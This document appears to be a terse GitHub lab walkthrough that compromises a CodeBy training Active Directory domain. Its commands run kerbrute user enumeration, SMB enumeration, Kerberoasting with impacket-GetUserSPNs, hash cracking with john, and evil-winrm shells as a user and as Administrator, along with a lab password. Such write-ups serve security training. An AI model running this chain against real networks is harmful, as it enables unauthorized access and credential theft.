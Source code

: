 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f4b29e9d-ec91-488d-9c1c-8944f0193732)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.4 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8378bfd-9f39-49fd-8fd4-ee903864c522)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
```
smbmap -H 192.168.2.4 -u "guest" -p "" -d codeby.cdb 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d0a99e64-34d8-4f12-8a33-f998f6734971)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f576be09-5901-42ff-927f-3f1e3d2e4d06)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/735656c1-2a35-4692-a325-9090da14b569)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84951fcb-17b0-4561-84c9-7963189cb7f2)
```
smbclient -L \\\\192.168.2.4\\ -U amaslova
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eed7217e-c251-47c3-9535-633f5ac2c235)
```
smbmap -u "amaslova" -p "NeverGiv3up" -H 192.168.2.4 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ff4437ae-ad83-4ff8-a001-f5bab1712848)
```
impacket-GetUserSPNs 'codeby.cdb/amaslova:PASS' -dc-ip 192.168.2.4 -outputfile hashpass.txt  
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/29c39627-ac70-4a32-8348-cfea43f12512)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hashpass.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9dde67b3-b7c3-4d3d-82a3-3fd03297327f)
```
evil-winrm -i 192.168.2.4 -u 'dsemenov' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b924c1de-6064-458e-aa9d-581579ab75cd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3732a5e8-7985-4d98-8912-c11ad5003a93)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f714e60c-bd41-4c22-9e00-651c65b5028c)
```
evil-winrm -i 192.168.2.4 -u Administrator -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c943877-4a22-40a1-a984-9bdc388e6113)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e2e38f5a-c017-4ed1-97f2-8fb2bbe978c2)


